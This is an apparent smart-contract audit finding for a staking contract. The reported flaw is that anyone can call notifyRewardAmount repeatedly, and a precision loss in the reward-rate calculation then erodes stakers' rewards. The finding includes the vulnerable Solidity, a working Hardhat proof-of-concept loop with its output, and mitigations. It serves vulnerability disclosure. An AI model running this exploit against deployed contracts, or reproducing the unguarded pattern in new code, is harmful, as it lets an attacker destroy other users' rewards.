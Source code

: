 Quaint Heather Ostrich

High

# Most of the users' reward will be lost due to frequent calls to notifyRewardAmount and loss of precision.

### Summary

The function notifyRewardAmount has no access control, so anyone can call it. And there is no limit on the amount of new rewards, it only needs to be greater than 0.

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L284-L289

```solidity
			if (amount == 0) continue;
			if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

			IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
			pendingRewards[token] += amount;
			_addRewardsForToken(token, amount);
```

At the same time, there is a loss of precision in the function _addRewardsForToken.

https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/staking/SymmStaking.sol#L369-L375

```solidity
		if (block.timestamp >= state.periodFinish) {
>@			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
>@			state.rate = (amount + leftover) / state.duration;
		}
```

Since state.duration = `7*24*3600` (1 week), the maximum number of tokens lost each time is `7*24*3600-1` (604799). For 6-decimal tokens such as USDC, this means a possible loss of $0.6.

Therefore, the attacker can reduce the proportion of reward issuance by frequently calling notifyRewardAmount, thereby damaging the returns of all stakers. Taking POC as an example, the total reward is $1,000 (1000e6 USDT) at the beginning. If the attacker calls notifyRewardAmount 1,000 times, the total reward will be reduced by about $600. This takes less than an hour to complete (since a block is created every 2 seconds).

**Likelihood: High, just calls notifyRewardAmount multiple times
Impact: High, as users will lost much rewards.**

### Root Cause

1. The function notifyRewardAmount has no access control.
2. The loss of precision in the function _addRewardsForToken.

### Internal Pre-conditions

1. Reward (such as USDC/USDT) is going to distribute.

### External Pre-conditions

1. Attacker calls notifyRewardAmount multiple times (every time transfer 1 USDC/USDT)

### Attack Path

1. call notifyRewardAmount multiple times

### Impact

Most of the rewards will be lost, users will receive very small rewards.

### PoC

Place this code in the file symmStaking.behavior.ts.

```jsx
		it("should calculate reward correctly after single user deposit", async function () {
			// ....
		}
		
		it("should display total reward diff", async function () {

			const depositAmount = 1000*1000000 // 100usdc
			const rewardAmount = depositAmount
			await usdtToken.connect(admin).approve(await symmStaking.getAddress(), rewardAmount)
			await symmStaking.connect(admin).configureRewardToken(await usdtToken.getAddress(), true)
			await symmStaking.connect(admin).notifyRewardAmount([await usdtToken.getAddress()], [rewardAmount])

			const totalReward1 = await symmStaking.connect(user1).getFullPeriodReward(await usdtToken.getAddress());
			
			await stakingToken.connect(user1).approve(await symmStaking.getAddress(), depositAmount)
			await symmStaking.connect(user1).deposit(depositAmount, user1.address)

			await usdtToken.connect(admin).approve(user2.address, 1000);
			await usdtToken.connect(user2).transferFrom(admin.address, user2.address, 1000);
			for (var i=0; i<1000; i++) {
				await time.increase(2)
				await usdtToken.connect(user2).approve(await symmStaking.getAddress(), 1)
				await symmStaking.connect(user2).notifyRewardAmount([await usdtToken.getAddress()], [1])
			}

			const user1BalanceBefore = await usdtToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await usdtToken.balanceOf(user1.address)
			const claimed = user1BalanceAfter - user1BalanceBefore
			const totalReward2Base = await symmStaking.connect(user1).getFullPeriodReward(await usdtToken.getAddress());
			const totalReward2 = totalReward2Base + claimed;
			console.log("totalReward1:", totalReward1.toString());
			console.log("totalReward2:", totalReward2.toString());
			console.log("Difference (totalReward1 - totalReward2):", (totalReward1 - totalReward2).toString());
		})

```

Output:

totalReward1: 999734400
totalReward2: 399552359
Difference (totalReward1 - totalReward2): 600182041

### Mitigation

1. Add access control for the function notifyRewardAmount.
2. When calculating state.rate, you can multiply it by a coefficient, such as 1e18, and then divide it by the coefficient when finally calculating the user's reward.